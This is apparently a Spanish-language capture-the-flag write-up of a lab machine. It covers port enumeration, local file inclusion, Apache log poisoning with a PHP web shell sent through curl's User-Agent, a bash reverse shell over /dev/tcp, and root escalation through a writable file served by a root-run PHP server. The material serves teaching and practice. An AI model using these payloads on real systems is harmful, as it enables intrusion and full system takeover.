







- Tags: #LFI #logPoisoning #logs #PortEnumeration #linux 
_____
una maquina algo curiosa, empezamos con el reconocimiento basico de los puertos con nmap, para posteriormente aplicar un script basico de reconocimiento que nos proporciona nmap.

tenemos variedad de puertos abiertos, en los que destacan los puertos: **21, 22, 25, 80, 139, 445, 2121, 3128, 8593, 54787, 62524**.

verificamos cada uno y vemos que podemos observar que nos pueda llevar a una vulnerabilidad.

en el puerto ftp (21) no encontramos gran cosa, incluso no vulnerable a credenciales de invitado como lo es **anonymous **

en el puerto 22 (SSH) no tendrá mayor relevancia en esta maquina, lo descartamos.

investigando el puerto 80 nos encontramos lo siguiente.
____

____
lo que se observa como phpIPAM 1.4 se investigo con searchsploit y en efecto tiene vulnerabilidades pero no aplican en este caso.

aun nos quedan puerto por ver y por verificar pero el que realmente nos interesa en el 8593, puesto que es un servidor web el cual se compone de la siguiente manera.
___

___
contamos con dos recursos, los cuales despliegan la siguiente URL.
____

____
lo que podemos verificar si se acontece un LFI **(local file inclusion)**, probamos a leer el **/etc/passwd** y vemos que sucede.
___

____
vemos que podemos leer el archivo por lo que tenemos que convertir el LFI a un RCE, podemos investigar los logs y ver cuales están disponible.

guiándonos por el wappalyzer  vemos que contamos con apache2 y la ruta de los log para apache2 es la siguiente **/var/log/apache2/access.log**. 
___

___
y podemos visualizar los logs. por lo que ahora procedemos a envenenar los logs para asi poder ejecutar comando remotos. 

nos podemos ayudar del comando curl y con el siguiente comando poder envenenar el log.

`curl -s -X GET "http://192.168.0.105/testlog" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"`
___

___
enviamos lo petición y en teoría podremos ejecutar comando.

así que con la siguiente reverse shell nos podremos mandar una conexión a nuestra maquina la cual estará a la escucha con netcat.

```bash
bash -c "bash -i >%26 /dev/tcp/<direccion_ip>/<puerto> 0>%261"
```

una vez dentro de la maquina debemos estabilizar la tty y escalar privilegios, así que empezamos.
___
aplicamos sudo -l y vemos que nos pide contraseña, buscamos entonces por los binarios `find \-perm -4000 2>/dev/null`

y vemos que aparece.
___

___
el siguiente archivo es de interés ya que en su interior cuenta con un archivo index.php en el cual tenemos permisos de escritura y ejecución.

verificando con el comando **ps -faux** el cual nos muestra una lista completa de todos los procesos en ejecución en el sistema. podremos ver lo siguiente.
___

____
1. **Línea 2**: `/bin/sh -c /usr/bin/php -S 127.0.0.1:57 -t /var/tmp/sv/`
    
    - **Usuario**: `root`
    - **PID**: `381`
    - **%CPU**: `0.0`
    - **%MEM**: `0.0`
    - **VSZ**: `2388`
    - **RSS**: `764`
    - **TTY**: `?` (no tiene terminal asociada)
    - **STAT**: `Ss` (estado del proceso; `S` significa que está durmiendo y `s` indica que es un líder de sesión)
    - **START**: `13:07`
    - **TIME**: `0:00`
    - **COMMAND**: `/bin/sh -c /usr/bin/php -S 127.0.0.1:57 -t /var/tmp/sv/`
    
    Esta línea muestra un proceso de shell (`/bin/sh`) que está ejecutando un comando para iniciar un servidor PHP embebido (`/usr/bin/php -S 127.0.0.1:57 -t /var/tmp/sv/`). Este comando inicia un servidor PHP en la dirección `127.0.0.1` en el puerto `57`, sirviendo archivos desde el directorio `/var/tmp/sv/`.
___
por que se deduce que si el comando lo esta ejecutando root y nosotros como usuarios no privilegiados podemos leer, modificar y ejecutar el archivo, entonces podemos modificar la estructura del mismo para poder asi ganar privilegio root.
___

____
por lo que una vez que lo modifiquemos realizamos una petición al localhost con el puerto que maneja el servidor, en este caso es el puerto 57. posteriormente aplicamos bash -p y ya tendríamos un usuario root.

fin.....